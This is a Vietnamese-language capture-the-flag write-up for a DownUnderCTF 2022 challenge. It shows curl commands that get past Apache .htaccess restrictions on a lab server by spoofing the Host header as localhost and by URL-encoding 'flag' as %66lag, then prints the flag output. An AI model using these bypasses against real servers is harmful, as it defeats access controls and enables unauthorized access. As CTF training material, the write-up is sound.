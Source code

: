 WRITE-UP  DownUnderCTF 2022 - 

Sau khi sữ dụng lệnh curl -I http://yourdomain.com ta nhận được:

HTTP/1.1 403 Forbidden
Date: Tue, 15 Apr 2025 08:44:43 GMT
Server: Apache/2.4.54 (Debian)
Content-Type: text/html; charset=iso-8859-1

Bạn thấy một mã trạng thái 403 hoặc một số thông báo khác cho thấy bị từ chối quyền truy cập, có thể đó là vì quy tắc .htaccess chặn truy cập.

# Ở file one/.htaccess ta thấy rằng nếu Host không phải là localhost, yêu cầu sẽ bị từ chối ngay lập tức với mã trạng thái 403 Forbidden (thông qua dòng RewriteRule ".*" "-" [F])
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]

Vì vậy thiết lập header Host trong yêu cầu HTTP thành localhost.

curl -i -s -k -X $'GET' -H $'Host: localhost' $'http://192.168.93.128:30026/one/flag.txt'

HTTP/1.1 200 OK
Date: Tue, 15 Apr 2025 09:02:00 GMT
Server: Apache/2.4.54 (Debian)
Last-Modified: Tue, 15 Apr 2025 06:34:43 GMT
ETag: "10-632cb5d2eec3c"
Accept-Ranges: bytes
Content-Length: 16
Content-Type: text/plain

DUCTF{thats_it_



# Ở file two/.htaccess ta thấy kiểm tra biến server THE_REQUEST, chứa toàn bộ dòng yêu cầu HTTP (ví dụ: GET /index.html HTTP/1.1). 
Điều quan trọng là quy tắc tìm kiếm sự xuất hiện của chuỗi flag trong dòng yêu cầu. Nếu tìm thấy flag, yêu cầu sẽ bị chặn (qua RewriteRule).
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]

Vì vậy chúng ta cần đảm bảo rằng chuỗi flag không xuất hiện trong dòng yêu cầu. 
Nên mã hóa URL chuỗi flag, vì quy tắc .htaccess chỉ kiểm tra chuỗi flag chưa được mã hóa.
Chuỗi mã hóa URL của từ flag là %66lag

curl http://192.168.93.128:30026/two/%66lag.txt
next_time_im_using_nginx}
